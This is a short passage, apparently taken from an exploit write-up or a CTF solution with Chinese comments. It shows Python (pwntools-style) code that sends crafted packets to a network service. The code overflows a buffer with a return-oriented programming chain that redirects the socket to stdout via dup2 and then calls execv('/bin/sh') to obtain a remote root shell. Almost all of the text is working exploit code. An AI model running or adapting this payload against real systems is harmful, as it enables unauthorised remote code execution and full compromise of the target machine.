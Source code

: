 ```python
            p64(10) + \
            p64(pop_rsi_ret) + \
            p64(1) + \ 
            p64(dup2_addr) + \       # dup2(10, 1), socket句柄重定向到stdout
            p64(main_loop)           # 返回main_loop函数继续监听
packet = b'3' + str(len(payload) + 1).encode() + b'1' + payload
rp.sendline(packet)

payload = b'/bin/sh\x00' + b'1' * (overflow_distance - 8) + \
            p64(pop_rsi_ret) + \
            p64(0) + \
            p64(execv_plt)           # 执行execv("/bin/sh", NULL)获取远程shell
packet = b'3' + str(len(payload) + 1).encode() + b'1' + payload
rp.sendline(packet)

rp.interactive()
```

rop方式获取远程root shell：

